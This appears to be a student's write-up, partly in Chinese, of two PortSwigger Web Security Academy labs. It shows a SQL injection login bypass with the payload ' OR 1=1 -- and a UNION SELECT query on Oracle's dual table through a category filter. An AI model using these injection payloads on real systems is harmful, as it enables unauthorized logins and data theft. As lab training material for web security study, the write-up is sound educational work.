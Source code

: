 
## Lab: SQL injection vulnerability allowing login bypass
![image](https://hackmd.io/_uploads/Hy_u-vzK6.png)
https://0aad00cc0476e8b8809c5ded00c8008a.web-security-academy.net/

![image](https://hackmd.io/_uploads/ByuGMvMtp.png)

### Solution
> [!NOTE]
>:brain: 思考邏輯:\
>題目要求 administrator user 登入，所以從My account下手

#### My accoumt
/login
![image](https://hackmd.io/_uploads/HybLMwfYp.png)

> ' OR 1=1 --
> chw (pwd)

![image](https://hackmd.io/_uploads/HJLtzDGYa.png)

### Solved
#### /my-account?id=administrator
![image](https://hackmd.io/_uploads/BJS3MvfF6.png)
![image](https://hackmd.io/_uploads/S18NmPzYa.png)

## Lab: SQL injection attack, querying the database type and version on Oracle
![image](https://hackmd.io/_uploads/SJ6I7wzF6.png)
(HINT)
![image](https://hackmd.io/_uploads/BJTq_PzF6.png)

https://0aac000904b8c94980841c6d00bd0069.web-security-academy.net/
![image](https://hackmd.io/_uploads/By0FmwGYT.png)

### Solution
> [!NOTE]
>:brain: 思考邏輯:\
>題目要求 UNION attack to retrieve the results，所以創建一個虛擬dual table，再使用 UNION SELECT

● https://portswigger.net/web-security/sql-injection/cheat-sheet
![image](https://hackmd.io/_uploads/HJuANvfFT.png)

● [dual是一個虛擬表格，用來構成select的語法規則，oracle保證dual裡面永遠只有一筆記錄。](https://blog.csdn.net/skyly84/article/details/4887015)
#### /filter?category='+UNION+SELECT+'dev','core'+FROM+dual--
![image](https://hackmd.io/_uploads/BywP8wGYp.png)
> 成功，能確認select中有兩個column

